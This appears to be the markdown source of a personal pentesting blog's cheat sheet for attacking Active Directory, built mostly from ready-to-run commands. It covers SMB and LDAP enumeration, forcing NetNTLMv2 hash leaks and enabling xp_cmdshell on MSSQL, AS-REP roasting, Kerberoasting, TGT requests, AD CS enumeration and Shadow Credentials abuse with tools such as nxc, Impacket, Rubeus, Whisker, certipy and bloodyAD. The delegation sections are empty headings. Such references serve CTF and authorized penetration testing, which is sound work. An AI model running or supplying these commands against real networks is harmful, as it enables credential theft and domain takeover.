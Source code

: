 ```yaml
---
title: "CheatSheet - Active Directory Attacks"
author: Nasrallah
description: ""
date: 2025-07-21 07:00:00 +0000
categories : [CheatSheet]
tags: [CheatSheet, windows]
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

## **SMB**

```bash
nxc smb 10.10.10.10 -u user -p password
```

```bash
nxc smb 10.10.10.10 -u user -p password --user --shares -M spider_plus
```

## **LDAP**

```bash
ldapsearch -H 'ldap://htb.local/' -x -b "dc=htb,dc=local" '(objectClass=person)'
```

## MSSQL

### XP_DIRTREE

List a directory

```shell
exec master.sys.xp_dirtree 'c:\', 1, 1;
```

Get NetNTMLv2 hash

```bash
xp_dirtree \\10.10.10.10\share
```

### Command execution

Check admin privileges 1=true=admin

```bash
SELECT is_srvrolemember('sysadmin');
```

Enable `xp_cmdshell`

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```bash
enable_xp_cmdshell
```

Executing commands.

```bash
xp_cmdshell "whoami"
```

```bash
nxc mssql manager.htb -u operator -p operator -x whoami
```

```bash
nxc mssql domain.local -u user -p pass -q 'ELECT name FROM master.dbo.sysdatabases;'
```

## **Attacking Kerberos**

### **AS-Rep Roasting**

```bash
nxc ldap 10.10.10.161 -u '' -p ''  --asreproast hashes.txt
```

```bash
GetNPUsers.py 'htb.local/' -usersfile users.txt -no-pass -dc-ip 10.10.10.161
```

```shell
rubeus.exe asreproast /format:hashcat /nowrap
```

### **Kerberoasting**

```bash
GetUserSPNs.py -request -dc-ip 10.10.10.10 'DOMAIN/user:password' -outputfile hashes.txt
```

```bash
nxc ldap 10.10.10.10. -u user -p password --kerberoasting hashes.txt
```

```shell
rubeus.exe kerberoast /nowrap
```

### **Pass The Ticket**

#### Generating TGTs

```bash
getTGT.py 'domain.local/user' -dc-ip 10.10.11.45 -p 'password'
```

```bash
nxc smb domain -u user -p password --generate-tgt
```

## AD CS

[AD CS - Privilege-Escalation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

```bash
certipy find -vulnerable -u user -p password -dc-ip 10.10.11.72 -stdout
```

```shell
certify.exe find /vulnerable
```

```bash
nxc ldap 10.10.10.10 -u user -p pass -M adcs
```

## Shadow Credentials

### Windows

```shell
Whisker.exe add /target:sflowers /password:siriussirius /path:cert.pfx
```

```shell
Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"siriussirius" /domain:domain.local /dc:DC.domain.local /getcredentials /show
```

### Linux

```bash
certipy shadow auto -account {target_user} -u 'user@domain.local' -p 'password' -dc-ip 10.129.135.59
```

```bash
bloodyAD --host domain.local -d domain.local -u user -p password add shadowCredentials {target_user}
```

## Delegation

### Constrained Delegation

### Unconstrained Delegation

### Resource Based Constrained Delegation

## **References**

<https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation>
